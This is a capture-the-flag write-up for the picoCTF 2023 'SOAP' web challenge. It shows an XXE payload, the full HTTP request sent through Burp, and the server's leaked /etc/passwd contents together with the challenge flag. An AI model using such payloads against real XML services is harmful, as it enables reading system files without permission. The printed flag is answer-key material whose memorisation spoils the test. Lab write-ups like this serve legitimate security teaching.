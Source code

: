 ### SOAP

#Medium #web_exploitation  #picoCTF2023 #XXE

Author: Geoffrey Njogu

#### Description

The web project was rushed and no security assessment was done. Can you read the /etc/passwd file?[Web Portal](http://saturn.picoctf.net:64510/)

##### Solution:
xxe attack
![](soap/id1_burpsuit.png)

![](soap/id0_burpsuit.png)


![](soap/xxe_burpsuite.png)

xxe payload for more info [xxe](https://portswigger.net/web-security/xxe) attack
```css
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<stockCheck><productId>&xxe;</productId></stockCheck>
```

which is modified according to website
```css
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<data><ID>&xxe;</ID></data>
```

add this payload into burp repeater to get flag

```css
POST /data HTTP/1.1
Host: saturn.picoctf.net:58789
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://saturn.picoctf.net:58789/
Content-Type: application/xml
Content-Length: 129
Origin: http://saturn.picoctf.net:58789
Connection: keep-alive
Priority: u=0

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<data><ID>&xxe;</ID></data>
```

```css
HTTP/1.1 200 OK
Server: Werkzeug/2.3.6 Python/3.8.10
Date: Thu, 09 Jan 2025 13:39:22 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 1023
Connection: close

Invalid ID: root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
flask:x:999:999::/app:/bin/sh
picoctf:x:1001:picoCTF{XML_3xtern@l_3nt1t1ty_0dcf926e}
```